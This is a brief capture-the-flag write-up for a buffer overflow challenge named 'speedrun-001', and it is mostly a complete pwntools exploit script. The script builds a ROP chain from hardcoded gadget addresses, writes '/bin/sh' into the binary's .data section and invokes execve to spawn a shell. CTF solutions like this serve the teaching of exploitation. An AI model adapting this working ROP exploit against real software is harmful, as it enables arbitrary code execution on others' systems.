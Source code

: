 # Challenge Theory
This is a buffer overflow challenge that requests information...
I sent it a rop chain and popped a shell instead.
# Solution
Nothing interesting really.
It's a basic ropchain that write's "/bin/sh" to the .data section, and then calls execve.
## Exploit Script
```python
#!/usr/bin/python3
import pwn
import sys
binary = "./speedrun-001"
pwn.context.binary = binary
pwn.context.encoding = "latin"

padding = 1032
gadgets = {
    "pop_rdi_ret":0x400686,
    "pop_rax_ret":0x415664,
    "pop_rdx_ret":0x44be16,
    "pop_rsi_ret":0x4101f3,
    "mov_qword_ptr_rax_rdx":0x48d251,
    "syscall_ret":0x474e65,
    "data_section":0x6b90e0,
    "data_section_1":0x6b90e1
}
payload = b"A"*padding
payload = pwn.flat(
    b"A"*padding,
    pwn.p64(gadgets["pop_rax_ret"]),
    pwn.p64(gadgets["data_section"]),
    pwn.p64(gadgets["pop_rdx_ret"]),
    0x68732f6e69622f2f,
    pwn.p64(gadgets["mov_qword_ptr_rax_rdx"]),
    pwn.p64(gadgets["pop_rax_ret"]),
    0x3b,
    pwn.p64(gadgets["pop_rdi_ret"]),
    pwn.p64(gadgets["data_section_1"]),
    pwn.p64(gadgets["pop_rsi_ret"]),
    0,
    pwn.p64(gadgets["pop_rdx_ret"]),
    0,
    pwn.p64(gadgets["syscall_ret"])
)

if ("input" in sys.argv):
    with open("input", "wb") as io:
        io.write(payload)

if ("log" in sys.argv):
    pwn.context.log_level = "debug"

with pwn.process(binary) as io:
    pwn.info(io.readrepeat(1))
    io.send(payload)
    if ("interactive" in sys.argv):
        io.interactive()

    if ("output" in sys.argv):
        pwn.info(io.readrepeat(1))
```
